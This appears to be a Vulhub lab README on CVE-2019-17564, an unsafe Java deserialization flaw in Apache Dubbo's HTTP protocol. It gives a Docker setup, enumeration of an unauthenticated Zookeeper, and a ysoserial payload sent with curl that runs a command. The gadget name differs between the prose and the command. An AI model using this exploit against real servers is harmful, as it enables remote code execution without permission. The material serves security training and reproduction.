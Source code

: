 # Aapche Dubbo Unsafe Java Deserialization (CVE-2019-17564)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Dubbo is a high-performance, java based open source RPC framework.

Apache Dubbo supports different protocols, and its HTTP protocol handler is a wrapper of Spring Framework's `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`.

A security warning of Spring Framework shows that an unsafe Java deserialization is exist in the `HttpInvokerServiceExporter`, which could lead to a RCE vulnerability:

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code As a consequence, do not expose HTTP invoker endpoints to untrusted As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

This vulnerability affects Apache Dubbo 2.7.4 and earlier, after 2.7.5 Dubbo replace `HttpInvokerServiceExporter` with `com.googlecode.jsonrpc4j.JsonRpcServer`.

Reference links.

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/ HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## Vulnerable Environment

Start an Apache Dubbo 2.7.3 Provider by executing the following command.

```
docker-compose up -d
```

After the service is started, browser ``http://your-ip:8080`` and the server will return an empty 500 error page by default.

## Exploit

It is important to know the RPC interface name before leveraging this vulnerability.

Vulhub is exposing the port 8080 and port 2181, where 2181 is the port of Zookeeper. Download [Zookeeper](https://zookeeper.apache.org/) and use the script **zkCli** to connect to the unauthenticated Zookeeper server:

```
./zkCli -server target-ip:2181
```

After connecting, it is come with an interactive console, where you can `ls` all nodes, including Dubbo-related configuration.

![](1.png)

Get the RPC interface named `org.vulhub.api.CalcService`. Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a `CommonsCollections6` payload, then send it to `http://your-ip:8080/org.vulhub.api.CalcService` as POST body.

```
java -jar ysoserial.jar CommonsBeanutils6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

Entering the container, you can see that `touch /tmp/success` has been executed successfully.

![](3.png)
